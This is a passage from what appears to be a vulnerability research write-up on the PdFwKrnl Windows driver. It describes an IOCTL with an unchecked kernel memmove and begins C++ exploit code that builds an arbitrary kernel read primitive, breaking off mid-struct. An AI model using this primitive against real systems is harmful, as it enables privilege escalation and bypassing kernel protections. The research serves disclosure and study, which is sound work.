 One IOCTL code quickly stood out to me during my tracing. It checks the size of the user struct passed is equal to `0x38` and then uses user supplied values to perform a `memmove` with no checks that the destination address range does not fall within the user mode address space.  

![alt text](../assets/img/pdfwkrnl-memmove.png)

Excellent, this could act as a read/write primitive. To test this, I started constructing some code to try and read from the `KUSER_SHARED_DATA` structure which has a static offset of `0xfffff78000000000`.

I started by creating some essentials, creating the necessary imports and driver device string.

```c++
#include <iostream>
#include <Windows.h>

#define DRIVER                  "\\\\.\\PdFwKrnl"
#define RW_TARGET_IOCTL_CODE    0x8000202c

```

The driver checked the user supplied struct was `0x38` bytes in size. As such I created a simple struct to match this. It is worth noting the definition for memmove: `memmove(dest,src,size)`.

Checking the Ghidra code again this indicates that the destination will be `address4`, the source `address5`, and the size `address5`.

```c++
typedef struct {
    ULONGLONG address0;
    ULONGLONG address1;
    ULONGLONG address2;
    ULONGLONG address3;
    ULONGLONG address4;
    ULONGLONG address5;
    ULONGLONG address6;
} RW_BUFFER;
```

Next up was actually issuing the request to the driver and to handle any resulting data that might be returned. 

To do so I created a method to dynamically allocate memory corresponding to a user supplied `amount` of QWORDS. Then issue the target request, to copy from the `target_address` to the allocated `output_buff`. 

```c++
ULONGLONG* arbitrary_read(HANDLE device_handle, ULONGLONG target_address, int amount) {
    // Allocate memory and address to read to
    LPVOID output_buff = VirtualAlloc(
        NULL,
        sizeof(ULONGLONG) * amount,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_READWRITE
    );

    DWORD bytes_returned;
    RW_BUFFER input_buff = {
        0x4141414141414141,  // Junk padding values
        0x4242424242424242,  // Junk padding values
        0x4343434343434343,  // Junk padding values
        0x4444444444444444,  // Junk padding values
```